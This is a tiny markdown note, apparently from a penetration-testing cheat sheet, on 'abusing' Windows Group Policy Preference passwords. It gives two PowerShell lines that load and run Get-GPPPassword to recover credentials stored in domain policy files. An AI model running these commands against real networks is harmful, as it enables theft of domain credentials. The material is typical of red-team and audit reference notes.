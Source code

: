 # GPP Passwords

### Abusing gpp passwords module

```markdown
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword

```
